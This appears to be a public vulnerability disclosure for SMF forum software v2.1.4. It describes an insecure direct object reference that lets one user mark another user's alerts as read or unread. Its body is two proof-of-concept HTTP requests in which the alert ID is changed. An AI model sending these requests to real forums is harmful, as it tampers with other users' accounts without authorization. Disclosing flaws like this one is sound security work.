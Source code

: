 # Exploit Title: SMF v2.1.4 - Insecure Direct Object Reference(IDOR)
## Date: 25/7/2024
## Vendor Homepage: https://github.com/SimpleMachines/SMF
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SimpleMachines
## Version: v2.1.4
## Exploit Description:
## SMF v2.1.4 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to mark other user's alerts as read or unread(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /index.php?action=profile;u=2;area=showalerts;do=read;aid=3(CHANGE HERE);f05dbf50a54f=9fc74e4234f40571a49c23b1a0799b19 HTTP/1.1
Host: localhost:8410
...
Connection: keep-alive

```
```
GET /index.php?action=profile;u=2;area=showalerts;do=unread;aid=3(CHANGE HERE);f05dbf50a54f=9fc74e4234f40571a49c23b1a0799b19 HTTP/1.1
Host: localhost:8410
...
Connection: keep-alive

```